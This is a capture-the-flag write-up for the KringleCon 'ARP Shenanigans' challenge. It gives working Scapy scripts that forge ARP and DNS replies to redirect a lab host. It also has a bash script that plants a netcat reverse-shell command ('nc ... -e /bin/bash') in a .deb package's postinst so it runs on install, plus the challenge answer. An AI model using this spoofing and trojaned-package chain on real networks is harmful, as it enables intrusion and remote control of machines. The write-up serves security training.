







# ARP Shenanigans

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [santamode-arp terminal](https://docker2020.kringlecon.com/?challenge=santamode-arp&id=475c8240-6269-4adb-88cf-3a6db20664fa)<br/>
**Terminal hint**: [Scapy Prepper](../hints/h9.md)


## Objective

!!! question "Request"
    Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. Who recused herself from the vote described on the document?

??? quote "Alabaster Snowball"
    It seems that some interloper here at the North Pole has taken control of the host.

    We need to regain access to some important documents associated with Kringle Castle.

    Maybe we should try a machine-in-the-middle attack?

    That could give us access to manipulate DNS responses.

    But we'll still need to cook up something to change the HTTP response.

    I'm sure glad you're here Santa.


## Hints

??? hint "Sniffy"
    Jack Frost must have gotten malware on our host at 10.6.6.35 because we can no longer access it. Try sniffing the eth0 interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.

??? hint "Embedy"
    The malware on the host does an HTTP request for a `.deb` package. Maybe we can get command line access by sending it a [command in a customized .deb file](http://www.wannescolman.be/?p=98)

??? hint "Resolvy"
    Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof. Let's return a DNS response resolving the request to our IP.

??? hint "Spoofy"
    The host is performing an ARP request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in `/home/guest/scripts`.


## Solution

Solving this challenge requires intercepting the network traffic coming from Jack's computer to trick the device into downloading a malicious `.deb` package installer containing a reverse shell back to our host. Python scripts (to help with intercepting the ARP and DNS requests) and sample `.deb` packages are provided but they're missing some key components.


### Spoof the ARP response

Start by running a packet capture to verify the traffic being received.



Update the provided [`arp_resp.py`](../artifacts/objectives/o9/arp_resp.py) script so it sends back an ARP response that tricks Jack's machine into thinking we are host 10.6.6.53. We do that by crafting an ARP response packet that has all field values filled out as they normally would, except for the source MAC address fields. Those should contain our MAC address instead (lines 2 and 11). 

```python linenums="1"
if ARP in packet and packet[ARP].op == 1:
    ether_resp = Ether(dst=packet[ARP].hwsrc, type=0x0806, src=macaddr)

    arp_response = ARP(pdst=packet[ARP].psrc)
    arp_response.op = 2
    arp_response.plen = 4
    arp_response.hwlen = 6
    arp_response.ptype = 0x0800
    arp_response.hwtype = 0x01

    arp_response.hwsrc = macaddr
    # we need to make it look as if this came from the original host, not us!
    arp_response.psrc = packet[ARP].pdst
    arp_response.hwdst = packet[ARP].hwsrc
    arp_response.pdst = packet[ARP].psrc
```

!!! info "Sample ARP pcap files"
    Sample ARP packet captures can be found in `~/pcaps/arp.pcap` and on [cloudshark.org](https://www.cloudshark.org/captures/d97c5b81b057).

Start a new packet capture and run the updated [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script.



We successfully tricked Jack's machine into sending a DNS request for `ftp.osuosl.org` our way.




### Spoof the DNS response

Next, [craft a DNS response](https://www.securitynik.com/2014/05/building-your-own-tools-with-scapy.html) to trick Jack's hijacked machine into thinking *ftp.osuosl.org* is actually our host. In other words, force the DNS request for *ftp.osuosl.org* to resolve to our IP address. Update the provided [`dns_resp.py`](../artifacts/objectives/o9/dns_resp.py) script by changing `ipaddr_we_arp_spoofed` to *10.6.6.53* and add the missing DNS details to the `handle_dns_request()` function.

```python linenums="1"
def handle_dns_request(packet):
    eth = Ether(src=macaddr, dst=packet[Ether].src)     
    ip  = IP(dst=packet[IP].src, src=ipaddr_we_arp_spoofed)
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)  # swap ports

    dns = DNS(
        id=packet[DNS].id,
        qr=1,
        opcode=packet[DNS].opcode,
        aa=1,
        qdcount=packet[DNS].qdcount,
        ancount=1,
        qd=DNSQR(
            qname=packet[DNS].qd.qname,
            qtype=packet[DNS].qd.qtype,
            qclass=packet[DNS].qd.qclass
        ),
        an=DNSRR(
            rrname=packet[DNS].qd.qname,
            rdata=ipaddr,
            ttl=86400
        )
    )

    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")
```

!!! info "Sample DNS pcap files"
    Sample DNS packet captures can be found in `~/pcaps/dns.pcap` and on [cloudshark.org](https://www.cloudshark.org/captures/0320b9b57d35).

Start a packet capture and run the updated [`dns_resp.py`](../tools/objectives/o9/dns_resp.py) script, followed by the [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script. 



Besides the ARP and DNS requests (and our spoofed responses), we're now capturing even more traffic from Jack's machine.



Running a simple Python web server using `python3 -m http.server 80` will tell us that Jack's hijacked machine is making a failed HTTP GET request to `/pub/jfrost/backdoor/suriv_amd64.deb`. Let's host a [malicious payload](http://www.wannescolman.be/?p=98) there. :smiling_imp:


### Create the payload

The best package candidate in `~/debs/` is probably `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` as it will install the `nc` binary we need to establish the [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) connection back to our machine. It also provides a `postinst` file where we can add the reverse shell command itself to make it execute as part of the package post-install phase.

To help remove some of the tedious packaging and setup work create a [`prepare_package.sh`](../tools/objectives/o9/prepare_package.sh) script that unpacks `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` (lines 9-13), adds the `nc` reverse shell command to the `postinst` file (line 18), packages everything back up (line 20), creates the proper directory structure for the HTTP request to succeed (line 22), and start a Python web server to host the `.deb` file (line 27).

```bash linenums="1"
#!/usr/bin/bash
# Start at the right place
cd $HOME/debs/
# Unpack the deb package components
export MYDEB=netcat-traditional_1.10-41.1ubuntu1_amd64.deb 
mkdir packing
cd packing
cp ../$MYDEB .
dpkg -x $MYDEB work
mkdir -p work/DEBIAN
ar -x $MYDEB
tar -xf control.tar.xz ./control
tar -xf control.tar.xz ./postinst
mv control work/DEBIAN/
mv postinst work/DEBIAN/
# Add the reverse shell command to postinst
export my_ip=`hostname -I`
echo "/bin/nc ${my_ip} 8888 -e /bin/bash" >> work/DEBIAN/postinst
# Build the package
dpkg-deb --build work/
# Create the path the rogue host is requesting
mkdir -p $HOME/web/pub/jfrost/backdoor/
# Move the malicious package file into place
mv work.deb $HOME/web/pub/jfrost/backdoor/suriv_amd64.deb
# Start the web server
cd $home/web/
python3 -m http.server 80
```


### Run the exploit

Now that all the required components are in place, open 3 additional Tmux windows (for a total of 4). One window should already be running the Python webserver. Use the remaining 3 windows to first start a netcat listener with `nc -nlvp 8888` that will accept the incoming reverse shell connection, then the updated [`dns_resp.py`](../tools/objectives/o9/dns_resp.py) script, and finally the modified [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script.



The hijacked host will be redirected to our web server, download the malicious `suriv_amd64.deb` file, install it, and open a reverse shell as part of the `.deb` package post-install process.



We now have access to the meeting minutes located at [`/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`](../artifacts/objectives/o9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt).

!!! abstract "NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt"
    ...

    RESOLUTIONS:

    The board took up final discussions of the plans presented last year for the expansion of Santa’s Castle to include new courtyard, additional floors, elevator, roughly tripling the size of the current castle.  Architect Ms. Pepper reviewed the planned changes and engineering reports. Chairman Frost noted, “These changes will put a heavy toll on the infrastructure of the North Pole.”  Mr. Krampus replied, “The infrastructure has already been expanded to handle it quite easily.”  Chairman Frost then noted, “But the additional traffic will be a burden on local residents.”  Dolly explained traffic projections were all in alignment with existing roadways.  Chairman Frost then exclaimed, “But with all the attention focused on Santa and his castle, how will people ever come to refer to the North Pole as ‘The Frostiest Place on Earth?’”  Mr. In-the-Box pointed out that new tourist-friendly taglines are always under consideration by the North Pole Chamber of Commerce, and are not a matter for this Board.  Mrs. Nature made a motion to approve.  Seconded by Mr. Cornelius.  **Tanta Kringle** recused herself from the vote given her adoption of Kris Kringle as a son early in his life. 

    ...

!!! done "Answer"
    Tanta Kringle
